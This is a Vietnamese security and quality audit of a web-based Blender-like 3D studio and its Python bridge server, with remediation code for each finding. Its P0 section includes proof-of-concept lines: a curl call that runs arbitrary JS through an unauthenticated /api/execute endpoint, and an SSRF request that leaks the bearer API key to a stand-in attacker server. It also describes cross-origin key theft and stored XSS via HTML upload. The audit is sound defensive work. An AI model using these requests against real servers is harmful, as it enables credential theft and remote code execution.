

# Báo cáo đánh giá dự án — Web Blender Studio

**Ngày audit gốc:** 01/11/2026 — **cập nhật trạng thái mới nhất: 28/11/2026 (`v0.9.0-beta.2`)**
**Phạm vi gốc (03/11/2026):** 58 module JS (50.371 dòng), 31 file Python (10.122 dòng), `index.html`, `css/blender-theme.css` (4.257 dòng), vendor Three.js r160 + Rapier 0.21.0 + MediaPipe WASM. Các bảng ở §0–§12 là **snapshot lịch sử** tại thời điểm audit; không dùng chúng để suy ra trạng thái an toàn hiện tại.

> ### Kết quả Beta Readiness & Phase 1 Verification 28/11/2026 (`v0.9.0-beta.2`)
> - **Mã nguồn thực đo:** **153 module JS (141.621 dòng)**, Cloudflare Edge **4 file (2.527 dòng)**, **4 crate Rust WASM / 19 file (18.525 dòng)**, Python **20 file ngoài test (10.959 dòng)** / **29 file gồm test (13.860 dòng)**, `index.html` (1.264 L), `motion.html` (357 L), `embed.html` (118 L), `css/blender-theme.css` (5.938 L), **106 file test**.
> - **Đóng toàn bộ P0/P1 kỹ thuật:** Transaction/Rollback (`js/ai/copilot-runtime.js`: `studio.addCamera` `mutatesSelection: true`, sửa `dataSize()` tránh duyệt `Object3D`/`cameraHelper` vào `engine.scene` gây tràn 72 MB và xóa `undoStack`, giữ `cameraHelper`/`lightHelper`/`physicsBody` trong `descriptorFromJSON`, bảo toàn tối thiểu lệnh vừa ghi trong `SceneManager.executeCommand` byte eviction; `studio.batchToInstances` detach `TransformControls` cũ và chọn scatter group; không dispose geometry sớm trước rollback; khôi phục selection/camera; phát hiện stale worker 404 `E_STALE_BUNDLE`), Texture Lease (`js/render/texture-lease-registry.js`, `js/ui/material-shelf.js` AbortController), Inspector (`js/ui/inspector.js` abort on target change), Export Cancel (`js/exporters/export-import.js` abort trong optimizer traverse + mutex settle, `js/ui/export-dialog.js` status notice), đồng bộ 12 danh mục Community & Edge AI Rate Limit (`cloudflare/cloud-bff.js`). **Không còn P0/P1 kỹ thuật mở.**
> - **Telemetry & Error Monitoring:** `js/core/telemetry.js` + `POST /api/telemetry/event` (HTTP 202) + `GET /api/telemetry/summary` (sanitized, chuyển tiếp lỗi chuẩn Sentry Envelope v7). **Đã nghiệm thu live trên Staging (28/11):** `node scripts/verify_sentry_staging.mjs` PASS — `/healthz` trả `sentryConfigured: true`, `/api/telemetry/event` trả `{"ok":true,"accepted":1,"sentryForwarded":1}`, fatal smoke event `6b15fd458d6ead23dc4e005b4c1931da` được Sentry tiếp nhận.
> - **Hunger Motion Workspace, Landing & 3 Templates:** `motion.html` (`/motion`), workspace `Motion` gọn gàng ẩn công cụ nâng cao sau tab **Advanced** với 2-phase lazy-load (`js/app.js`), và 3 template (`js/animation/motion-templates.js`): **Unity Humanoid**, **VRM / VTuber**, **TikTok Dance 9:16**.
> - **Staging Live & CDN R2:** `https://hunger-studio-staging.hunger-studio-vn.workers.dev` đang chạy **beta.1**, khỏe với Supabase `fpkhjitqzieqofcviyqi`, private Storage RLS/8 RPC/0 advisor và Sentry live. Source `main` đã là beta.2 nhưng auto-deploy bị skip vì thiếu `CLOUDFLARE_API_TOKEN`; chưa tuyên bố beta.2 đã live. `npm run build:cdn` giảm `dist/` từ **79,7 MB → 14,6 MB** (104 file, dùng R2 `hunger-assets`).
> - **Kiểm chứng Gate (28/11):** `bash tests/run_all.sh --fast` **PASS (`exit 0`)** (Python **124/124**, Cloud **49/49**, Rust **47/47**, P1 Hardening **15/15**, Beta Motion/Telemetry **8/8**, Cloudflare Worker **14/14**, Copilot Worker **20/20**, `agent.exec` **13/13**); **CI Linux browser 14/14 suite / 208 kiểm tra**, pathtrace **18/18 trong 443,2 s** trên SwiftShader, 0 blocked, 0 uncaught; **`dist/` gate 9/9 PASS**. Local pathtrace **18/18 trong 38,5 s**. Bản vá beta.2 dùng completion signal tường minh, chờ Advanced/rAF, gom compile shader và dọn WebGL context; serializer loại bounding cache biến động khỏi scene hash. Đo 4G tắt cache trên Staging beta.1: Standard 4G Landing **852 ms**, Motion Workspace **2.583 ms**; Slow 4G Motion Workspace **4.741 ms**; **0 HTTP/COEP/JS error**.
> - **Git & CI/CD (Live 28/11):** remote GitHub `https://github.com/hueotran80-alt/hunger-studio`, `main` HEAD `662e5bb`, tag **`v0.9.0-beta.2`**; Branch Protection `enforce_admins:true`, `strict:true`, yêu cầu PR + 3 required checks (Python/Node/P1/CDN, Rust WASM, Headless Chromium + Production), chặn force-push/xoá nhánh. CI run `46067177067` xanh 3/3. Cấu hình hiện tại yêu cầu PR nhưng chưa bắt buộc approving review.
> - **Còn lại cho GA thu phí (Phase 2+ — toàn bộ tiêu chí GO Phase 2 đã đạt):** Nạp secret SePay/LemonSqueezy live + `freeMode: false`, thêm OAuth Google/GitHub + Reset Password, mở lại Image-to-3D qua Cloud 3D API.

> ### Snapshot lịch sử 25/11/2026 (trước đợt vá P0)
> - **Mã nguồn khi đo:** 140 module JS (130.251 dòng); Python 20 file ngoài test (10.758 dòng), 29 file nếu tính test (13.458 dòng); 4 crate Rust WASM (`mesh`, `video`, `render`, `mocap`), `index.html` 1.194 dòng, `css/blender-theme.css` 5.821 dòng.
> - **Gate khi đó:** `bash tests/run_all.sh` thoát mã **1**. Python **121/121**, agent bridge **16/16**, Rust **47/47**; Sculpt vượt ngưỡng môi trường (**29,19 ms toàn bộ / 27,30 ms cô lập**, yêu cầu <25 ms); browser **13/14** ở lượt đầu, `chaos-ui` chạy lại đạt **7/7**; `dist/` gate **9/9**.
> - **Build khi đó:** 24,72 s; entry Vite **275,84 kB gzip**; `dist/` **80,0 MB / 126 file**, **0 file >25 MB**, catalog **2.396 item** (6 Studio + 2.390 Poly Haven CC0).
> - **Bốn P0 gốc:** (1) Inspector stored XSS qua metadata Curve/Text; (2) Copilot/`agent.exec` chưa cô lập DOM/storage; (3) asset Supabase private nằm trong bucket public; (4) refund trước paid bị mất nên paid sau đó vẫn cộng credit. Bằng chứng gốc được giữ trong §13.
>
> ### Kết quả vá và full gate 26/11/2026
> - **Mã nguồn hiện tại:** 143 module JS (132.829 dòng); Python 20 file ngoài test (10.777 dòng), 29 file nếu tính test (13.584 dòng); `index.html` 1.256 dòng, `css/blender-theme.css` 5.818 dòng.
> - **Inspector:** Curve/Text metadata được dựng bằng DOM API an toàn; `tests/test_wave2_fixes.mjs` **10/10** và payload XSS tương ứng đã được kiểm trong Chromium.
> - **Copilot/STEM demo:** mã AI-generated chạy trong dedicated module Worker với scene mirror Three.js, CSP hạn chế, capability denial, timeout/cancellation, live-command allowlist, asset staging và transaction/conflict check ở parent. `agent.exec` chạy trong Worker riêng với CSP và global bị chặn. Không còn truyền `engine`/`studio`/`editMode`/`stemTutor`/`bpy`/THREE runtime thật vào mã AI-generated.
> - **Hồi quy sau lần đóng P0 đầu:** người dùng phát hiện server dev đang chạy bản 25/11 nên Worker response thiếu CSP, và Live Voice nhận tiếng TTS “xem lại” thành lệnh “quay lại”. P0 đã được mở lại: giữ nguyên sandbox, chặn Auto-Repair cho `E_PERMISSION`, thêm echo guard cho lệnh điều hướng và regression trong Node/Chromium.
> - **Cloud:** Supabase source/schema đã đặt `shared-models` ở chế độ private, bật Storage RLS, thu hồi quyền trực tiếp và dùng BFF signed URL; refund-before-paid có payment row/mã nhận diện được đã được lưu bền vững và chặn cộng credit muộn. `tests/test_cloud.py` **48/48**.
> - **Full gate:** `bash tests/run_all.sh` thoát mã **0**, **68/68 nhóm**. Python **124/124**, agent bridge **16/16**, Rust **47/47**, Godot/Blender import PASS; Copilot Worker **17/17**, `agent.exec` isolation **7/7**, guard **26/26**; browser **14/14 suite / 208 kiểm tra**, 0 blocked, 0 uncaught; production `dist/` **9/9**.
> - **Build production:** Vite **34,15 s**; entry **275,99 kB gzip**; `dist/` **80,7 MB / 128 file**, **0 file >25 MB**, catalog **2.396 item**. Các cảnh báo externalize `fs`/`path` và mixed static/dynamic import vẫn được ghi nhận, nhưng không làm gate thất bại.
> - **Kết luận:** bốn đường P0 gốc đã được vá trong mã nguồn và có regression cục bộ; P0 Copilot đã đóng lại trong phạm vi kiểm tra này sau khi sửa hồi quy server CSP/Live Voice echo. **Chưa sẵn sàng public thương mại:** schema Supabase chưa áp live, còn edge refund external-ID-only, SePay/LemonSqueezy/Supabase thật, Docker/CI thật, thông tin liên hệ pháp lý và các hạn chế P1/P2 khác.
**Phương pháp:** đọc mã + chạy server thật (`.venv/bin/python server.py`, Python 3.11.14) + kiểm thử bằng Chromium thật + PoC runtime cho XSS/sandbox/billing + đo đạc định lượng + chạy toàn bộ test/build hiện có. Giá trị khoá bí mật đã được che.

> **Cập nhật sau audit:** bộ P0/P1 của audit 01/11 đã được vá kèm test hồi quy — xem **[mục 9](#9-nhật-ký-sửa-lỗi-đã-thực-hiện--đã-kiểm-chứng)**. Các mục 2–4 và §13 giữ nguyên mô tả lỗi/kết quả **lịch sử**; trạng thái hiện hành nằm ở khối beta.2 phía trên. Báo cáo audit sâu và kế hoạch modeling lịch sử đã chuyển vào [`audit/reports/`](audit/reports/). Việc gate xanh không phải bằng chứng Supabase/webhook production đã được triển khai hay kiểm chứng.

---

## 0. Tóm tắt điều hành

| Hạng mục | Điểm | Ghi chú |
|---|---|---|
| Độ phong phú tính năng | 9/10 | Modeling, rig, animation, mocap, AI 3D, xuất nhập, DSL — rất hiếm dự án web làm được |
| Chất lượng tính năng đã kiểm chứng | 7/10 | Mocap, DSL, timeline, save/load, export đều chạy đúng |
| Bảo mật | **2/10** | Lộ API key không cần xác thực, RCE qua LAN, SSRF, stored XSS |
| Hiệu năng | 5/10 | Outliner O(n²), render 60fps liên tục, rò rỉ GPU khi xoá |
| Độ ổn định | 6/10 | Có crash handler-thread khi tham số sai, không giới hạn body |
| Kiến trúc / khả năng bảo trì | 5/10 | File khổng lồ, phụ thuộc `window.*`, ít test tự động |
| Trải nghiệm người dùng | 7/10 | Rất sát Blender, nhưng Inspector bị cắt số, không autosave |

**Kết luận ngắn:** đây là một sản phẩm **ấn tượng về năng lực** nhưng đang ở trạng thái "demo rất mạnh" — phần bảo mật của bridge server cần xử lý **trước khi** cho bất kỳ ai khác dùng, và có 2 lỗi lõi (rò rỉ GPU, nhân bản rig) ảnh hưởng trực tiếp tới công việc sáng tạo.

---

## 1. Ưu điểm (đã kiểm chứng, không chỉ đọc README)

### 1.1 Kiến trúc chạy được thật, không cần build
- Dùng ES Module + `importmap` trỏ tới `vendor/three`, **không cần bundler**, không cần npm install để chạy. Mở `http://localhost:8080` là chạy.
- Three.js được vendor sẵn → **offline được**, không phụ thuộc CDN (trừ 1 chỗ, xem P2-6).
- Tải trang sạch: chỉ 3 dòng log, **0 console error**, 21 subsystem khởi tạo thành công.

### 1.2 Mocap AI chạy đúng đầu-cuối
Đo thật với `models/sample_human_motion.webm`:
```json
{"success": true, "fps": 25.0, "numFrames": 10, "totalVideoFrames": 1400,
 "videoWidth": 1920, "videoHeight": 1080, "coveragePct": 0.7}
```
→ MediaPipe PoseLandmarker (full) load được, trả landmarks 2D/3D, có progress polling. Đây là tính năng khó và nó hoạt động.

### 1.3 Rapid 3D DSL + tương thích `bpy`
Kiểm chứng trực tiếp trong trình duyệt:
- `studio.createBuilding({floors:6,...})`, `studio.createStaircase({type:'spiral',steps:24})`, `studio.createTree({type:'pine'})` → tạo **4 object, 5.730 đỉnh**, không lỗi.
- `bpy.ops.mesh.primitive_cube_add()` chạy được.

### 1.4 Lưu / mở dự án and xuất file đúng
- Roundtrip `.blend.json`: tên, vị trí, vật liệu `#ff0000` được giữ nguyên sau khi lưu → xoá scene → mở lại.
- `exportOBJ()` 2,4 KB, `exportSTL()` 684 B, `exportProjectJSON()` 2,6 KB — đều sinh blob hợp lệ.

### 1.5 Nhập GLB có rig thật
`Soldier_Human_Rigged.glb` → 2.016 ms, **2 SkinnedMesh, 49 bone**, nhân bản giữ được skeleton (nhưng xem P1-2: dùng chung skeleton).

### 1.6 Timeline nội suy chính xác
Đặt key tại frame 0 (`x=0`) và frame 30 (`x=6`):
| Frame | 0 | 10 | 15 | 30 |
|---|---|---|---|---|
| `position.x` | 0 | 2 | 3 | 6 |

→ Smoothstep đúng, `evaluate()` không lỗi.

### 1.7 Backend agent có bảo mật tốt nhất trong dự án
`/api/agent/*` là phần **duy nhất** được thiết kế đúng: chỉ localhost, kiểm tra `Host`/`Origin`, allowlist domain, DNS-pinning chống rebinding, chặn redirect chéo, giới hạn 50 MB, rate-limit 60 req/phút, tên file upload có uuid, chặn symlink.
**16/16 unit test pass** (`python -m unittest test_agent_server`), gồm cả test chống DNS rebinding và test deadline.

### 1.8 Giao diện rất sát Blender
Screenshot thật ở 1600×1000: 

Outliner, Properties, shading popover, N-panel, timeline, dock scripting — bố cục và màu sắc đúng tinh thần Blender 4.x. Đây là lợi thế cạnh tranh lớn: người dùng Blender **không phải học lại**.

---

## 2. Lỗi nghiêm trọng (P0) — Bảo mật

> Bối cảnh: `run_server()` bind `0.0.0.0` (`server.py:1129`), CORS `*` cho mọi endpoint thường (`server.py:537`), và **không có bất kỳ xác thực nào** cho `/api/*` (trừ `/api/agent/*`).

### P0-1. Lộ toàn bộ API key (Gemini / OpenAI / Motapis) không cần đăng nhập
**Vị trí:** `server.py:783` (GET `/api/config`), `server.py:1022` (POST `/api/config` trả `bridge_hub.config` nguyên bản).

`GET /api/config` cố tình xoá `customKey`/`customKeys` nhưng **quên `geminiKey` và `openAiKey`**:
```python
client_cfg["customKey"] = ""      # chỉ che mỗi custom
client_cfg["customKeys"] = []     # ...
# geminiKey / openAiKey vẫn còn nguyên trong dict
```
**PoC thật** (trình duyệt, origin `http://localhost:8080` gọi chéo sang `http://127.0.0.1:8080`):
```json
{"crossOriginConfigRead":200,"stolenGeminiKeyLen":53,"stolenOpenAiKeyLen":164}
```
→ Bất kỳ trang web HTTP nào bạn đang mở đều đọc được key (Chrome có thể chặn HTTPS→localhost bằng Private Network Access, nhưng không chặn HTTP/localhost khác cổng); mọi máy trong LAN thì đọc trực tiếp bằng `curl`, không cần trình duyệt. POST `/api/config` còn trả cả `customKeys` dạng thô.

**Hướng fix (bắt buộc):**
1. Không bao giờ gửi key ra client. Trả về cờ cấu hình:
```python
def _public_config(cfg):
    return {
        "provider": cfg.get("provider", "offline"),
        "geminiModel": cfg.get("geminiModel", ""),
        "customModel": cfg.get("customModel", ""),
        "customEndpoint": cfg.get("customEndpoint", ""),
        "geminiConfigured": bool(cfg.get("geminiKey")),
        "openAiConfigured": bool(cfg.get("openAiKey")),
        "customKeysCount": len(bridge_hub.get_motapis_keys()),
        "maskedKeys": [...],
    }
```
2. `js/ai/ai-copilot.js:180-200` bỏ đọc `cfg.geminiKey/openAiKey`, chỉ dùng cờ `*Configured`.
3. Không nhận key qua query string (`ai-copilot.js:156-158` — key nằm trong URL, vào history/referer/log).
4. Xoá key khỏi `localStorage`; mọi lời gọi LLM đi qua `/api/ai/chat` ở server.
5. `chmod 600 ai_config.json` (hiện là `664`, đọc được bởi mọi user máy).

---

### P0-2. Studio mở cho toàn mạng LAN + `/api/execute` = thực thi mã từ xa không xác thực
**Vị trí:** `server.py:1129` (`0.0.0.0`), `server.py:992` (`/api/execute`), `server.py:537` (CORS `*`).

Bất kỳ máy nào trong cùng Wi-Fi (quán cà phê, văn phòng, ký túc xá) đều gọi được:
```bash
curl -X POST http://<ip-máy-bạn>:8080/api/execute -d '{"code":"...arbitrary JS..."}'
```
**PoC thật** (cross-origin, đã chạy thành công):
```json
{"executeStatus":200,"executeBody":"{\"success\": true, ... \"result\": \"executed\"}"}
```
Nghĩa là: máy khác chạy JS tuỳ ý **trong tab studio của bạn** (đọc scene, gửi dữ liệu ra ngoài, thao tác thay bạn), và `/api/ai/chat` trở thành proxy LLM miễn phí bằng key của bạn.

**Hướng fix:**
```python
# 1. Mặc định chỉ loopback
def run_server(port=8080, ws_port=8082, host="127.0.0.1"): ...
# cho phép mở LAN có ý thức: python server.py --host 0.0.0.0 --token <random>
```
2. Thêm token bắt buộc cho mọi `/api/*`: sinh khi khởi động, in ra console, trang web nhận qua `?token=` hoặc cookie `SameSite=Strict; HttpOnly`, kiểm tra `Authorization: Bearer`/cookie trên **mọi** request (kể cả WS).
3. CORS: chỉ cho `http://127.0.0.1:<port>` và `http://localhost:<port>`, bỏ `*`.
4. Kiểm tra `Origin`/`Host` cho cả endpoint thường (dùng lại `_agent_guard` đã có).
5. Chặn `/api/execute` khi không có token — hiện tại đây là "cửa sau" nguy hiểm nhất.

---

### P0-3. SSRF + rò rỉ API key qua `/api/ai/chat`
**Vị trí:** `server.py:1067-1110`. `endpoint` lấy **từ body người dùng** rồi `urllib.request.urlopen` kèm `Authorization: Bearer <key>`.

**PoC thật:** dựng server "kẻ tấn công" ở `127.0.0.1:9911`, gửi:
```bash
curl -X POST http://127.0.0.1:8080/api/ai/chat \
  -d '{"endpoint":"http://127.0.0.1:9911/v1","messages":[...]}'
```
Server tấn công nhận được:
```json
{"path":"/v1/chat/completions","auth":"Bearer sk-…(key thật, đã che)"}
```
→ Kẻ tấn công vừa lấy được key, vừa dùng server làm bàn đạp quét mạng nội bộ / metadata cloud (`169.254.169.254`).

**Hướng fix:** bỏ `endpoint` khỏi request body; endpoint lấy **duy nhất** từ `ai_config.json`/env. Nếu buộc phải cho đổi, validate scheme + host allowlist (giống `AGENT_ALLOWLIST`) và chặn IP private/loopback/link-local.

---

### P0-4. Upload file tuỳ ý vào thư mục được serve same-origin → Stored XSS
Hai vector, **cả hai đã tái hiện**:

1. `POST /api/mocap/upload` (`server.py:925-947`): `ext = os.path.splitext(file_name)[1]`, **không allowlist** → gửi `poc.html` được ghi vào `models/uploaded_mocap.html`, server trả `Content-type: text/html`.
2. `POST /api/hunyuan3d/upload` (`hunyuan3d_engine.py:225-247`): cùng lỗi → `models/hunyuan_inputs/input_x_*.html`, phục vụ với `text/html`.

Kết quả thật:
```
{"success": true, "videoPath": "models/uploaded_mocap.html"}
Content-type: text/html; charset=utf-8   ← trình duyệt sẽ chạy <script>
```
Khi người dùng mở link đó, JS chạy **same-origin với studio** → đọc `/api/config`, `localStorage` (chứa HF token + key Gemini/OpenAI), điều khiển scene. Đây là mắt xích hoàn hảo cho chuỗi P0-1.

**Hướng fix:**
- Allowlist extension cho upload video: `{.mp4,.webm,.mov,.mkv}` và ảnh: `{.png,.jpg,.jpeg,.webp}`.
- Đặt tên file do server sinh (`uuid4().hex + ext`) — mockap hiện dùng tên cố định `uploaded_mocap{ext}`, ghi đè lẫn nhau.
- Serve thư mục upload với `Content-Disposition: attachment` + `X-Content-Type-Options: nosniff`, hoặc để ngoài document root.
- Thêm giới hạn kích thước (hiện tại không có, xem P1-5).

---

### P0-5. HuggingFace token lộ qua API và lưu ở `localStorage`
- `GET /api/hunyuan3d/status` trả `"config": self.config` (`hunyuan3d_engine.py:162`) — **kèm `hfToken` thật** (đã xác nhận: 37 ký tự, không che).
- `POST /api/hunyuan3d/config` cũng trả nguyên config.
- `js/ui/hunyuan3d-ui.js:374` lưu `hunyuan3d_hf_token` vào `localStorage` → bất kỳ XSS nào (P0-4) đọc được.

**Hướng fix:** dùng cùng cơ chế `_public_config`; client chỉ gửi token **một lần** khi cấu hình, không bao giờ nhận lại; hiển thị `hfTokenConfigured: true` và `maskedToken`.

---

### P0-6. WebSocket bridge: không kiểm tra Origin, không xác thực, chọn client không xác định
```python
# server.py:176
target_ws = list(self.connected_clients)[-1]   # set → thứ tự không xác định!
```
- Bất kỳ trang web nào cũng mở được `new WebSocket('ws://127.0.0.1:8082')` — **đã kiểm chứng: kết nối thành công từ origin khác**. WS không bị CORS chặn.
- `connected_clients` là `set`, nên `list(set)[-1]` **không phải** "client hoạt động gần nhất" như comment; nó là phần tử bất kỳ theo hash. Hệ quả: mở 2 tab studio thì lệnh từ CLI/agent đi vào **tab ngẫu nhiên**; tab kia treo chờ.
- Client lạ chen vào có thể nhận lệnh và trả kết quả giả (`/api/scene`, `/api/screenshot`).

**Đã đo:** `/api/status` báo `connectedBrowsers: 3` trong khi lệnh `/api/execute` vẫn tới một tab khác → xác nhận target không theo thứ tự kết nối.

**Hướng fix:**
```python
# dùng list có thứ tự + last_seen
self.clients = []            # append khi connect, remove khi disconnect
self.active_client_id = ws.id
target_ws = self.clients[-1]
```
+ kiểm tra `Origin` trong `ws_handler` (chỉ chấp nhận origin của chính server).
+ token bắt buộc khi handshake (`ws://127.0.0.1:8082/?token=...`).
+ mỗi tab gửi `hello` kèm `clientId`; agent chọn tab theo `clientId` hoặc tab đang focus.

---

## 3. Lỗi chức năng (P1) — ảnh hưởng trực tiếp người dùng

### P1-1. Rò rỉ GPU khi xoá object (đã đo)
**Vị trí:** `js/core/scene-manager.js:299` (`disposeResources = false` mặc định), `js/core/engine.js:641` (phím X/Delete gọi `removeObject` mà không truyền `true`).

**Đo thật** (40 cube, renderer.info.memory):
| Thời điểm | Geometries | Textures |
|---|---|---|
| Trước khi thêm | 34 | 10 |
| Sau khi thêm 40 | 74 | 10 |
| **Sau khi xoá cả 40** | **74** | **10** |

→ Xoá object **không giải phóng geometry/material**. Session dài (nhập 50 GLB rồi dọn) sẽ phình VRAM và sập tab.

**Fix:** trong `removeObject`, mặc định `disposeResources = true` cho đường tương tác người dùng, chỉ `false` khi phục vụ undo:
```js
// engine.js:641
selected.forEach(obj => this.sceneManager.removeObject(obj, true, /* dispose */ true));
```
Nhưng **undo** cần object còn sống → giải pháp đúng: `RemoveObjectCommand` giữ object và chỉ dispose khi command bị đẩy khỏi `undoStack` (thêm hook `onDiscard`), hoặc lưu bản clone nhẹ (geometry dùng lại) cho undo.
Ngoài ra `disposeMaterial()` đang duyệt `Object.keys(material)` và dispose **mọi** texture — material clone chia sẻ texture với bản gốc, nên xoá bản clone có thể làm hỏng texture của bản gốc. Chỉ nên dispose texture thuộc sở hữu riêng (đếm refcount).

### P1-2. Nhân bản nhân vật có rig → hai bản dùng chung skeleton
**Vị trí:** `js/core/scene-manager.js:351` — `duplicateObject()` dùng `source.clone(true)` ở dòng 355.

**Đo thật** trên Soldier (49 bone):
```json
{"sharedSkeleton":true,"sharedBone0":true,"dupBoneSameRef":true,
 "dupRotationReflectsEdit":true,"dupBoneCount":49}
```
→ Xoay tay bản clone thì **bản gốc cũng xoay**; xoá một bản có thể dispose skeleton của bản kia. Với một studio làm nhân vật, đây là lỗi lõi.

**Fix:** dùng `SkeletonUtils.clone` (đã có sẵn `vendor/three/addons/utils/SkeletonUtils.js`):
```js
import { clone as cloneSkeleton } from 'three/addons/utils/SkeletonUtils.js';
const clone = source.isSkinnedMesh || source.getObjectByProperty('isSkinnedMesh', true)
  ? cloneSkeleton(source)
  : source.clone(true);
```
Sau đó clone geometry/material như hiện tại (SkeletonUtils clone dùng chung geometry — cần clone như code đang làm).

### P1-3. Outliner dựng lại toàn bộ DOM cho mỗi object → chậm O(n²)
**Vị trí:** `js/ui/outliner.js:89-100` (mỗi `objectAdded` → `this.render()`), `:222` (`innerHTML = ''`).

**Đo thật** (thời gian trung bình cho 1 object, 60 object):
| Kịch bản | ms/object |
|---|---|
| Baseline | **16,09** |
| Tắt `requestRender` | 14,73 |
| **Tắt listener Outliner** | **4,95** |

→ ~70% thời gian tạo object là vẽ lại Outliner. Với DSL kiểu "100 toà nhà" hoặc import nhiều object, UI đứng hình. 120 cube mất **2,87 s** thay vì ~0,6 s.

**Fix:** coalesce render bằng `requestAnimationFrame`:
```js
this._renderQueued = false;
queueRender() {
  if (this._renderQueued) return;
  this._renderQueued = true;
  requestAnimationFrame(() => { this._renderQueued = false; this.render(); });
}
// thay tất cả this.render() trong các listener bằng this.queueRender()
```
Bước 2: chèn incremental theo `objectAdded` (tạo đúng 1 `<li>`), chỉ full render khi `sceneCleared`/`objectsUngrouped`.

### P1-4. Tham số sai làm sập handler HTTP (không có response)
**Vị trí:** `server.py:994`:
```python
timeout = float(body.get("timeout", 120.0) or 120.0)
```
**PoC:** `POST /api/execute {"timeout":"abc","code":"1"}` → **không có HTTP response** (curl trả rỗng), server log:
```
File "server.py", line 994, in do_POST
ValueError: could not convert string to float: 'abc'
```
Traceback rò rỉ đường dẫn tuyệt đối ra stderr. `do_POST` không có `try/except` bao ngoài (khác `_handle_agent` đã làm rất tốt).

**Fix:** bọc toàn bộ `do_POST` trong `try/except Exception` trả JSON 500 an toàn; thêm helper `_num(body, key, default, min, max)` validate mọi số (`timeout`, `maxFrames`, `frameStep`, `minCutoff`, `beta`, `temperature`).

### P1-5. Không giới hạn kích thước body thường
`_read_json_body()` (`server.py:724`) đọc `Content-Length` bất kỳ vào RAM. **Đo thật:** body 10 MB được nhận (200 OK sau 1,17 s), RSS server tăng lên **238 MB**, và ghi ra file rác 7,5 MB trong `models/hunyuan_inputs/`. Kẻ tấn công LAN chỉ cần gửi vài request 500 MB là OOM.

**Fix:** giới hạn cứng (ví dụ 25 MB cho upload ảnh/video, 2 MB cho JSON thường), trả 413; đọc theo stream có ngắt.

### P1-6. Mất dữ liệu khi đóng tab, không có Ctrl+S
- `grep beforeunload|autosave|autoSave` → **0 kết quả**. Đóng tab/refresh là mất toàn bộ scene không cảnh báo.
- Không có handler `Ctrl+S`/`Cmd+S` → trình duyệt mở hộp thoại "Save page", thao tác quen thuộc của người dùng Blender bị phá.

**Fix:** autosave vào `IndexedDB` mỗi 30 s (debounce) + `beforeunload` khi `undoStack` khác rỗng; `Ctrl+S` → `exporter.exportProjectJSON()` và lưu bản nháp.

### P1-7. Inspector bị cắt mất giá trị số (UI bug rõ ràng)
Screenshot 1600×1000 cho thấy các ô Transform chỉ còn chữ X/Y/Z, **không đọc được số**. Đo thật:
```json
{"inputClass":"scrub-input","width":"12px","value":"3.00m",
 "parent":"scrub-input-wrap","parentWidth":"32px"}
```
Input chỉ rộng **12 px** vì `.scrub-input-wrap { flex: 1 }` (`css/blender-theme.css:1677`) chia 240 px sidebar cho 3 trục + label. Kéo sidebar lên 420 px thì input rộng 65 px → dùng được.

**Fix:** cho `.prop-row` wrap hoặc đặt `min-width: 72px` cho `.scrub-input-wrap`, và nâng sidebar mặc định lên 300–320 px (`css/blender-theme.css:1217`).

### P1-8. API công khai không validate số → NaN lan vào scene
`timelineEngine.insertKeyframe(obj, 'position')` (nhầm chữ ký — chữ ký thật là `(object, frame, channels)`) tạo keyframe `frame = NaN`, sau đó `evaluate()` biến `position.x` thành `NaN`, object biến mất khỏi viewport và không tự phục hồi. Đây là kiểu lỗi rất dễ xảy ra với code do AI sinh ra (copilot/DSL).

**Fix:** validate đầu vào ở mọi API public (`Number.isFinite(frame)`), bỏ qua keyframe lỗi và trả lỗi rõ ràng thay vì im lặng.

---

## 4. Lỗi nhỏ & nợ kỹ thuật (P2)

| # | Vấn đề | Bằng chứng | Fix |
|---|---|---|---|
| P2-1 | `requirements.txt` thiếu `gradio_client` → panel Image-to-3D hỏng trên máy cài mới, dù README nói "cài đặt khuyến nghị" | `hunyuan3d_engine.py:31` `from gradio_client import Client` (try/except → chỉ disable âm thầm) | thêm `gradio_client>=1.0`, tách `requirements-hunyuan.txt` |
| P2-2 | 3 test Selenium không chạy được | Thiếu `selenium`; hard-code path Windows | ✅ đã xoá 3 script lỗi thời; test trình duyệt thay bằng Chrome headless + CDP |
| P2-3 | Three.js r160 (12/2023) đã cũ ~2 năm | `vendor/three/three.module.js` | nâng lên bản mới, hoặc ghim có chủ đích + ghi lý do |
| P2-4 | Repo phình | `ffmpeg.exe` **84 MB**, `models/` **96 MB**, `.DS_Store`, file CLI/MCP trùng tên | ✅ đã xoá `ffmpeg.exe`, `.DS_Store`, `studio_cli.py`, `studio-mcp.py`; giữ `studio-cli.py` + `studio_mcp.py`; model vẫn cần Git LFS nếu commit |
| P2-5 | Không có lint/format/CI | không có `package.json`, `.eslintrc`, workflow nào | thêm ESLint + `tsc --checkJs` (JSDoc đã có sẵn), GitHub Actions chạy unittest + syntax check |
| P2-6 | Film "Hạt Sáng" tải model từ GitHub lúc chạy | `js/film/film-project.js:10` `https://raw.githubusercontent.com/...` | vendor `Soldier.glb` vào `models/`, dùng đường dẫn nội bộ |
